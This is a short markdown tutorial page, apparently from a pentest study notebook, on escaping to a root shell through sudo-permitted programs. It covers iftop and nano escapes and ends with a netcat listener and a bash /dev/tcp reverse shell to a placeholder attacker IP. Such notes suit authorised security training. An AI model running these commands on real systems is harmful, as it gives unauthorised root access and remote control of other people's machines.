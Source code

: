# shell escaping

start to know which process run with sudo privilege `sudo -l`

![image.png](<../../../.gitbook/assets/image (1) (1).png>)

we will exploit all service

***

### Iftop

<figure><img src="../../../.gitbook/assets/image 1 (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/sbin/iftop
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image 2 (1).png" alt=""><figcaption></figcaption></figure>

***

### awk

<figure><img src="../../../.gitbook/assets/image 3.png" alt=""><figcaption></figcaption></figure>

***

> may command line not suitable when as a root by nano service so let’s try to take a reverse shell

### nano

<figure><img src="../../../.gitbook/assets/image 4.png" alt=""><figcaption></figcaption></figure>

```bash
sudo nano
ctrl+R
ctrl+x
reset; sh 1>&0 2>&0
```

which open a root shell but it’s blind which u can see the result only so let’s take a reverse shell on our machine

```bash
# attacker machine
nc -nlvp 5253
```

```bash
# victim
bash -i >& /dev/tcp/AttackerIP/5253 0>&1
```

<figure><img src="../../../.gitbook/assets/image 5.png" alt=""><figcaption></figcaption></figure>
